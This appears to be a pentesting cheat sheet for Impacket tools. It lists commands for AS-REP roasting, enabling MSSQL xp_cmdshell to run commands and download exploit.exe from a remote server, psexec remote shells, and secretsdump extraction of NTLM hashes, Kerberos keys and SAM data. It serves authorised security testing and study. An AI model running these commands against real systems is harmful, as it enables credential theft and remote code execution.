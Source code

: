 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. It also used to connect Microsoft SQL.
tags: [ActiveDirectory, ActiveRecon, MSSQL, Windows]
alts: [Bloodhound, CrackMapExec, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-mssqlclient

Establish an authenticated connection to Microsoft SQL.

```sh
# Connect
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1 -windows-auth

# ------ Logged in ---------------------------------------------

SQL> enable_xp_cmdshell
SQL> disable_xp_cmdshell

# Execute commands
SQL> xp_cmdshell whoami
SQL> xp_cmdshell dir
SQL> xp_cmdshell .\exploit.exe
SQL> xp_cmdshell "powershell.exe pwd"
# Get files from external server
SQL> xp_cmdshell "powershell.exe wget -UseBasicParsing http://10.0.0.1:8000/exploit.exe -OutFile c:\\Users\Public\exploit.exe"
```

<br />

## impacket-psexec

Interactive shell on Windows host.

```sh
impacket-psexec username:password@10.0.0.1
```

<br />

## impacket-rpcdump

```sh
impacket-rpcdump -port 135 10.0.0.1
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/username:password@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/username:password@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/username:password@10.0.0.1

# SAM and SYSTEM
impacket-secretsdump -sam sam.bak -system system.bak local
```